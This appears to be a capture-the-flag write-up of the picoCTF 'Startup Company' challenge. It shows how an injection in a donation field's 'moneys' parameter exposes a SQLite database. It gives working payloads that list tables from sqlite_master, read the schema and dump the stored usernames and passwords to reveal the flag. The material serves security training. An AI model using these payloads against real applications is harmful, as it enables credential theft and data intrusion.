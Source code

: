 ```yaml
---
description: SQLite injection
---
```


# Startup Company \(180\)

## Problem

Do you want to fund my startup? 

{% embed url="http://mercury.picoctf.net:5070/" %}

## Solution

![](../../.gitbook/assets/e48e746db6734b4faa91e2a7cd354ce9.png)

The query probably looks something like:

```sql
UPDATE some_table
SET 
    latest_contribution = <POST.moneys>
WHERE
    user_id = <SESSION.user_id>
```

So we can get information displayed in the green text by manipulating the `moneys=` parameter:

![](../../.gitbook/assets/69736eaa20634168b28afd74b366f2bf.png)

The SQLite version is 3.22.0:

![](../../.gitbook/assets/71b28b0ba90c4d118356b410cd704bb7.png)

### Getting Table Names

`captcha=23&moneys=' || (SELECT GROUP_CONCAT(tbl_name) FROM sqlite_master)`

Note that `GROUP_CONCAT` is required to concatenate all the `tbl_name` values into a single string. Otherwise, we might miss out on some valuable data.

![](../../.gitbook/assets/bb2a73e36a344a9e9120b9bd82021c73.png)

### Getting Column Names

`captcha=53&moneys='|| (SELECT GROUP_CONCAT(sql) FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='startup_users');`

![](../../.gitbook/assets/f6198ce6109f44f1ba1d30543bf9c6ba.png)

### Dumping Data

`captcha=36&moneys='|| (SELECT GROUP_CONCAT(nameuser) FROM startup_users);`

![](../../.gitbook/assets/3f58fc451ff04cad9192181c09eacc26.png)

Indeed, our flag is hidden in the `wordpass` value for the `the_real_flag` user!

`captcha=66&moneys='|| (SELECT GROUP_CONCAT(wordpass) FROM startup_users);`

![](../../.gitbook/assets/ae414d1d97154c6998412d1746e9862f.png)




